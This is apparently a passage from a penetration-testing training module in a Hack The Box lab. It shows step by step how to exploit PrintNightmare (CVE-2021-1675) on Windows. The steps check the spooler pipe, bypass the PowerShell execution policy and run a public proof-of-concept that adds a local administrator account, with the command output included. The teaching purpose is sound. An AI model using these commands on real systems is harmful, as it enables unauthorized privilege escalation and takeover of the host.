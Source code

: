 We can quickly check if the Spooler service is running with the following command. If it is not running, we will receive a "path does not exist" error.

Kernel Exploits

```powershell-session
PS C:\htb> ls \\localhost\pipe\spoolss


    Directory: \\localhost\pipe


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
                                                  spoolss
```

#### Adding Local Admin with PrintNightmare PowerShell PoC

First start by [bypassing](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/) the execution policy on the target host:

Kernel Exploits

```powershell-session
PS C:\htb> Set-ExecutionPolicy Bypass -Scope Process

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
https:/go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): A
```

Now we can import the PowerShell script and use it to add a new local admin user.

Kernel Exploits

```powershell-session
PS C:\htb> Import-Module .\CVE-2021-1675.ps1
PS C:\htb> Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"

[+] created payload at C:\Users\htb-student\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_am
d64_ce3301b66255a0fb\Amd64\mxdwdrv.dll"
[+] added user hacker as local administrator
[+] deleting payload from C:\Users\htb-student\AppData\Local\Temp\nightmare.dll
```

#### Confirming New Admin User

If all went to plan, we will have a new local admin user under our control. Adding a user is "noisy," We would not want to do this on an engagement where stealth is a consideration. Furthermore, we would want to check with our client to ensure account creation is in scope for the assessment.

Kernel Exploits
